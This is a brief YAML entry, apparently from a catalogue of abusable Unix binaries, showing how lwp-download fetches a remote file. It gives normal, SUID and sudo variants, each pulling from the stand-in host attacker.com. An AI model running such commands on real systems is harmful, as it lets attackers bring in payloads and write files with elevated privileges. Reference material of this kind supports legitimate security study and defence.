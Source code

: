 ```yaml
---
description: Fetch a remote file via HTTP GET request.
functions:
  file-download:
    - code: |
        URL=http://attacker.com/file_to_get
        LFILE=file_to_save
        lwp-download $URL $LFILE
  suid:
    - code: |
        URL=http://attacker.com/file_to_get
        LFILE=file_to_save
        ./lwp-download $URL $LFILE
  sudo:
    - code: |
        URL=http://attacker.com/file_to_get
        export LFILE=file_to_save
        sudo -E lwp-download $URL $LFILE
---
```


